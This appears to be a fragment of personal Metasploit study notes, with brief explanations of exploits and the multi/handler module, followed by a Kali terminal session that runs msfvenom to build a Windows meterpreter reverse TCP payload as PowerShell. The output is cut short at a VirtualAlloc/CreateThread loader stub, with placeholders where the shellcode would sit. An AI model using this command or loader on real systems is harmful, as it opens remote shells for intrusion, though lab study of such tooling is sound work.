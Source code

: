 

### Exploit

> Exploit are particular script too..  which are also called automated payloads.
>
> Exploits Are Automated Scripts that utilized Vulnerabilities to run as a Payloads.
>
> Exploit /multi/handler is a exploit which help to toggle exploits & Payloads with having multiply sessions.
>
> Exploits abused the particular vulnerabilities & perform the malicious activities.

```
#Msfvenom -L formats
Framework Executeable formats
It can straight way executed,  

```

```
┌──(hasanrehni㉿Kali-Linux-full)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.100.130 lport=5555 -f psh        
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of psh file: 3228 bytes
<program where the reverse connection trigger>
$AJavDSMg = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
"@

$dMINRLHJd = Add-Type -memberDefinition $AJavDSMg -Name "Win32" -namespace Win32Functions -passthru
</program where the reverse connection trigger>

<payloads which give the reverse connection>
```